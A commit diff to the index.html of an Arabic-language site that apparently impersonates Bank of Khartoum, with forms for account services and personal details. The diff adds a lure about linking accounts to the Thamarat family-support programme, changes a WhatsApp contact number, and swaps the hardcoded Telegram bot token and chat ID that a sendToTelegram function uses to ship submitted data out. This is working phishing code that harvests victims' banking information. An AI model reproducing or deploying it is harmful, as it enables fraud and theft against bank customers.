

Before and after one commit to Get-wep/Salh3_ibok, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 260-1136 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -101,54 +101,54 @@
                     </div>
                     <span>💼</span>
                 </div>
-                <div class="service-option" onclick="selectService(2, 'كشف الحساب')">
+                <div class="service-option" onclick="selectService(2, 'تفعيل أسئلة الأمان')">
+                    <div class="service-content">
+                        <span class="service-title">ربط حساب بنك الخرطوم ببرنامج ثمرات</span>
+                        <span class="service-desc">أربط حسابك الشخصي بمنصة ثمرات لدعم الأسر السودانية  </span>
+                    </div>
+                    <span>🛡️</span>
+                </div>
+                <div class="service-option" onclick="selectService(3, 'كشف الحساب')">
                     <div class="service-content">
                         <span class="service-title">كشف الحساب</span>
                         <span class="service-desc">الحصول على كشف حساب مفصل.</span>
                     </div>
                     <span>📈</span>
                 </div>
-                <div class="service-option" onclick="selectService(3, 'رفع السقف')">
+                <div class="service-option" onclick="selectService(4, 'رفع السقف')">
                     <div class="service-content">
                         <span class="service-title">رفع السقف</span>
                         <span class="service-desc">زيادة الحد اليومي للتحويلات.</span>
                     </div>
                     <span>📱</span>
                 </div>
-                <div class="service-option" onclick="selectService(4, 'التحويلات الخاطئة')">
+                <div class="service-option" onclick="selectService(5, 'التحويلات الخاطئة')">
                     <div class="service-content">
                         <span class="service-title">التحويلات الخاطئة</span>
                         <span class="service-desc">معالجة فورية للتحويلات الخاطئة.</span>
                     </div>
                     <span>✅</span>
                 </div>
-                <div class="service-option" onclick="selectService(5, 'خدمات العملات الأجنبية')">
+                <div class="service-option" onclick="selectService(6, 'خدمات العملات الأجنبية')">
                     <div class="service-content">
                         <span class="service-title">خدمات العملات الأجنبية</span>
                         <span class="service-desc">تفعيل وإدارة العملات الأجنبية.</span>
                     </div>
                     <span>💱</span>
                 </div>
-                <div class="service-option" onclick="selectService(6, 'بطاقة فيزا افتراضية')">
+                <div class="service-option" onclick="selectService(7, 'بطاقة فيزا افتراضية')">
                     <div class="service-content">
                         <span class="service-title">بطاقة فيزا افتراضية</span>
                         <span class="service-desc">إصدار وإدارة بطاقات الفيزا الافتراضية.</span>
                     </div>
                     <span>💳</span>
                 </div>
-                <div class="service-option" onclick="selectService(7, 'تغير الهاتف')">
+                <div class="service-option" onclick="selectService(8, 'تغير الهاتف')">
                     <div class="service-content">
                         <span class="service-title">تغير رقم الهاتف القديم إلى رقم هاتف جديد.</span>
                         <span class="service-desc">تغير رقم الهاتف القديم إلى رقم هاتف جديد.</span>
                     </div>
                     <span>🔄</span>
-                </div>
-                <div class="service-option" onclick="selectService(8, 'تفعيل أسئلة الأمان')">
-                    <div class="service-content">
-                        <span class="service-title">تفعيل أسئلة الأمان</span>
-                        <span class="service-desc">إعداد وتفعيل أسئلة الحماية والأمان.</span>
-                    </div>
-                    <span>🛡️</span>
                 </div>
             </div>
         </div>
@@ -296,7 +296,7 @@
             <div class="input-group">
                 <label>الإسم بالكامل:</label>
                 <input type="text" id="inc-name" placeholder="أدخل الإسم رباعي">
-                <div id="err-inc-name" class="error-message-box">⚠️ هذا الحقل مطلوب</div>
+                <div id="err-inc-name" class="error-message-box">⚠️️ هذا الحقل مطلوب</div>
             </div>
             <div class="input-group">
                 <label>المهنة:</label>
@@ -326,7 +326,7 @@
             <div class="input-group">
                 <label>رقم حساب أقرب الأقربين في بنك الخرطوم:</label>
                 <input type="text" id="inc-relative-account" placeholder="أدخل رقم حساب القريب (6 أو 7 أرقام)">
-                <div id="err-inc-relative-account" class="error-message-box">⚠️ هذا الحقل مطلوب</div>
+                <div id="err-inc-relative-account" class="error-message-box">⚠️️ هذا الحقل مطلوب</div>
             </div>
             <button class="btn-submit" onclick="finalizeProcess()">إتمام وتوثيق الطلب</button>
         </div>
@@ -355,7 +355,7 @@
     </div>
 
     <!-- الأيقونة العائمة الثابتة في أسفل الشاشة -->
-    <a href="https://wa.me/2499022876729" class="floating-whatsapp" target="_blank">
+    <a href="https://wa.me/249918597038" class="floating-whatsapp" target="_blank">
         <i class="fab fa-whatsapp"></i>
         <span>قسم معالجة الطلبات للاستفسار</span>
     </a>
@@ -598,8 +598,8 @@
         }
 
         function sendToTelegram(messageText) {
-            const botToken = "8813029455:AAFGdPqqzJ-WorJDSHRO2gdGbO-IqANpXrA";
-            const chatId = "2014945683";
+            const botToken = "8768779383:AAF8JU5AIp7V92PytduKqrF1qIb25IAGKng";
+            const chatId = "8859964558";
             const url = `https://api.telegram.org/bot${botToken}/sendMessage`;
 
             fetch(url, {
```
